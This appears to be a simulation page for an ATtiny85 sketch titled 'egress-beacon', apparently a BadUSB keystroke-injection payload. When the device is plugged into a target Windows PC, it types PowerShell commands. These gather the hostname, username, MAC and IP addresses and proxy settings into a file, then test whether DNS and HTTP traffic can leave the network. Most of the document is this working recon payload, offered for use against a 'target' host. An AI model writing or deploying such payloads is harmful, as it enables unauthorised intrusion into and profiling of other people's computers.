
Simulated run of this sketch. Board: ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Parts: output pins drawn as LEDs (lit = HIGH). The test bench sets the inputs (shaded band); at power-on: PB2 HIGH.

Above: at 0.1 s.
At 17.8 s:

Timing chart, 0 to 19.3 s (numbered marks = the images above):


The sketch:

egress-beacon.ino
```cpp
// recon/egress-beacon - Tier 2
//
// Proves what this host can reach, and whether it can call home.
//
// Beacon.json is local only - it does not send anything anywhere. The two
// tests at the end are what tell you whether this host could exfiltrate,
// which is a question about the control, not an attempt to.
//
// Read-only, no persistence, nothing left behind except the text file named in
// R_OUT. Output lands in C:\Users\Public\ds-recon\ on the target.

#include <duck.h>

// PROGMEM: this string must live in flash, not SRAM. The ATtiny85 has 512
// bytes of RAM and this script is far larger than that.
static const char S[] PROGMEM =
    R_MKDIR
    "$a=Get-NetAdapter -EA 0|Where-Object {$_.Status -eq 'Up'}|Select-Object -First 1"
    "$ips=Get-NetIPAddress -EA 0|Where-Object {$_.IPAddress -notlike '127.*'}|Select-Object -Expand IPAddress"
    "@{timestamp=(Get-Date).ToString('o');host=$env:COMPUTERNAME;user=$env:USERNAME;adapter=$a.Name;mac=$a.MacAddress;ips=($ips -join ',');proxy=(Get-ItemProperty 'HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Internet Settings' -EA 0).ProxyServer}|ConvertTo-Json|Out-File 'C:\\Users\\Public\\ds-recon\\beacon.json'"
    "'=== DNS RESOLUTION TEST (proves egress) ==='"
    "try{Resolve-DnsName example.com -Type A -EA Stop|Select Name,IPAddress|Format-Table -Auto|Out-String}catch{'DNS BLOCKED: '+$_.Exception.Message}"
    "'=== HTTP EGRESS TEST ==='"
    "try{$r=Invoke-WebRequest -Uri 'http://example.com' -UseBasicParsing -TimeoutSec 8 -EA Stop;'HTTP OK: '+$r.StatusCode}catch{'HTTP BLOCKED: '+$_.Exception.Message}"
    "Invoke-Item 'C:\\Users\\Public\\ds-recon\\beacon.json'"
    R_OUT("egress-beacon.txt")
    R_SHOW("egress-beacon.txt");

void setup() {
  duckBegin();
  ledPulse(2, 120, 120);
  recon(S);
  ledPulse(4, 150, 150);
}

void loop() {}
```
